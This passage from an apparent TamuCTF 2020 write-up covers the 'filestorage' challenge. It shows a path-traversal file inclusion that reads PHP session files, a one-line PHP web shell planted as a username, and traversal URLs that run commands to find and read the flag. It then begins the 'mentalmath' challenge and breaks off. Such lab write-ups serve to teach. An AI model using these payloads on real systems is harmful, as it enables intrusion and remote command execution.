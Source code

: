 This means that we have arbitrary reads. Let's check if our session files are stored in _/tmp/sess_SESSIONID_.
By trying __http://172.17.0.2/index.php?file=../../../../../tmp/sess_imec37rtfcsn9v2p7dd8mqful8__ we get our serialized session data.

![sessdata](/assets/img/TamuCTF_2020/filestorage_5.png)

Observe that our name is in bold, which means no sanitization is applied when registering.
We can try to use some php code as our name:

```php
<?php system($_GET["cmd"]); ?>
```

Now if we navigate to __/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=id__ we get our **id** command executed.

![cmdid](/assets/img/TamuCTF_2020/filestorage_6.png)

Perfect, let's read the flag!

1. Find the flag location:

```bash
/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=find / -name '*flag*' 2>/dev/null
```

2. Read the flag at /flag_is_here/flag.txt

```bash
/index.php?file=../../../../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=cat ../../../../../flag_is_here/flag.txt
```

🏁 __gigem{535510n_f1l3_p0150n1n6}__{:.spoiler}

---

## mentalmath

> My first web app, check it out! 

Navigating to the website we find ourselves in front of a sort of math solver. 
We have some sort of api behind  the static webpage. The api points to /api/new_problem and accepts json payloads like :

```json
{
    "problem" : "1+1",
    "answer" : "2"
}
```
